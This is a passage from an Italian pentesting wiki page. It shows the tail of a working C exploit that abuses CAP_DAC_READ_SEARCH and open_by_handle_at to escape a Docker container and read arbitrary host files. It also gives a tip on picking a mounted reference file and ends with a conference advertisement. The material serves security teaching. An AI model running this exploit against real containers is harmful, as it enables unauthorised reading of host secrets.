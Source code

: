 ```c
"[***] If you have pending sec consulting, I'll happily [***]\n"
"[***] forward to my friends who drink secury-tea too! [***]\n\n<enter>\n");

read(0, buf, 1);

// get a FS reference from something mounted in from outside
if ((fd1 = open("/etc/hostname", O_RDONLY)) < 0)
die("[-] open");

if (find_handle(fd1, argv[1], &root_h, &h) <= 0)
die("[-] Cannot find valid handle!");

fprintf(stderr, "[!] Got a final handle!\n");
dump_handle(&h);

if ((fd2 = open_by_handle_at(fd1, (struct file_handle *)&h, O_RDONLY)) < 0)
die("[-] open_by_handle");

memset(buf, 0, sizeof(buf));
if (read(fd2, buf, sizeof(buf) - 1) < 0)
die("[-] read");

printf("Success!!\n");

FILE *fptr;
fptr = fopen(argv[2], "w");
fprintf(fptr,"%s", buf);
fclose(fptr);

close(fd2); close(fd1);

return 0;
}
```
{% hint style="warning" %}
L'exploit deve trovare un puntatore a qualcosa montato sull'host. L'exploit originale utilizzava il file /.dockerinit e questa versione modificata utilizza /etc/hostname. Se l'exploit non funziona, potrebbe essere necessario impostare un file diverso. Per trovare un file montato sull'host, esegui semplicemente il comando mount:
{% endhint %}

![](<../../.gitbook/assets/image (407) (1).png>)

**Il codice di questa tecnica è stato copiato dal laboratorio "Abusing DAC\_READ\_SEARCH Capability" di** [**https://www.pentesteracademy.com/**](https://www.pentesteracademy.com)

​

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​​​​​​​​​​[**RootedCON**](https://www.rootedcon.com/) è l'evento sulla sicurezza informatica più rilevante in **Spagna** e uno dei più importanti in **Europa**. Con **la missione di promuovere la conoscenza tecnica**, questo congresso è un punto di incontro vivace per i professionisti della tecnologia e della sicurezza informatica in ogni disciplina.
